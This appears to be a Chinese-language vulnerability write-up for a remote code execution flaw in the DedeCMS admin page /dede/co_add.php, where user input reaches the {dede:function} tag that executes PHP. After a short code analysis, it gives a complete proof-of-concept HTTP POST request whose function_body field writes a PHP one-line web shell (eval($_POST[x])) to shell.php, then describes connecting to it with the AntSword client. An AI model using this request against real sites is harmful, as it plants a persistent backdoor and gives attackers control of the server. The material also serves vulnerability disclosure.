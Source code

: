 RCE远程命令执行

路由地址： /dede/co_add.php 

可控变量：$itemconfig

$itemconfig 字符串中拼接了 {dede:function}...{/dede:function} 这类标签，内容来自用户输入的 $GLOBALS["function_".$field]；

登录页面

![img](images/图片1.png)

分析代码
![img](images/图片2.png)


代码解释：循环step=5的步骤中，$itemconfig = "{dede:sppage sptype=\\'$sptype\\' sptype=\\'$sptype\\' srul=\\'$srul\\' erul=\\'$erul\\'}$sppage{/dede:sppage}\r\n";  $itemconfig是生成采集规则配置字符串，其中{dede:function}...{/dede:function}是一个内置标签，官方文档和源码中都说明这个标签会 执行其中的 PHP 代码，用来在采集时调用函数或写自定义代码，采集模块调用 dedecollection.class.php 解析这段配置

require_once(DEDEINC.'/dedecollection.class.php');
![img](images/图片3.png)
 

抓取数据包，为POST提交方式，提交数据
![img](images/图片4.png)
 

修改POST数据
![img](images/图片5.png)
 

查看页面，phpifo()执行成功
![img](images/图片6.png)
 

尝试进行编写一句话木马上传
![img](images/图片7.png)
 

Poc：

POST /dede/co_add.php HTTP/1.1

Host: zm.cms

Content-Length: 1120

Cache-Control: max-age=0

Origin: http://zm.cms

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://zm.cms/dede/co_add.php

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: PHPSESSID=r8633an1fkb7tsj85v21gn8ta4; _csrf_name_f1c32558=d94a3f92e0b389a1374a3ec3e854c0aa; _csrf_name_f1c325581BH21ANI1AGD297L1FF21LN02BGE1DNG=adee44dff7cea4ca; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4ab7784072cbcbf3; DedeLoginTime=1752456596; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=35ff91f756cca48d; ENV_GOBACK_URL=%2Fdede%2Fco_url.php%3Fnid%3D3%26small%3D1

Connection: close

 

nid=3&channelid=1&step=5&previewurl=http%3A%2F%2Fwww.example.com&sppage=&sptype=full&srul=1&erul=5&keywordtrim=&descriptiontrim=&fields%5B%5D=title&value_title=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&match_title=%3Ctitle%3E.*%3C%2Ftitle%3E&trim_title=&function_title=&fields%5B%5D=writer&value_writer=%E6%B5%8B%E8%AF%95%E4%BD%9C%E8%80%85&match_writer=%3Cmeta+name%3D%22author%22+content%3D%22.*%22%2F%3E&trim_writer=&function_writer=&fields%5B%5D=source&value_source=%E6%BA%90%E6%96%87%E7%AB%A0&match_source=%3Cmeta+name%3D%22source%22+content%3D%22.*%22%2F%3E&trim_source=&function_source=&fields%5B%5D=pubdate&value_pubdate=2025-07-14&match_pubdate=%3Ctime%3E.*%3C%2Ftime%3E&trim_pubdate=&function_pubdate=%40me%3DGetMkTime%28%40me%29%3B&fields%5B%5D=body&value_body=%E6%AD%A4%E6%98%AF%E4%B8%80%E6%AE%B5%E6%B5%8B%E8%AF%95%E6%AD%A3%E6%96%87&match_body=%3Cdiv+id%3D%22article-content%22%3E.*%3C%2Fdiv%3E&trim_body=&function_body=file_put_contents%28%27shell.php%27%2C%27%3C%3Fphp%20eval%28%24_POST%5Bx%5D%29%3B%3F%3E%27%29&isunit_body=1&isdown_body=1&b12=%E4%BF%9D%E5%AD%98%E9%85%8D%E7%BD%AE%E5%B9%B6%E9%A2%84%E8%A7%88

 

在页面发现shell.php编写成功

 ![img](images/图片8.png)

尝试蚁剑链接：

 ![img](images/图片9.png)
![img](images/图片10.png)
 

 
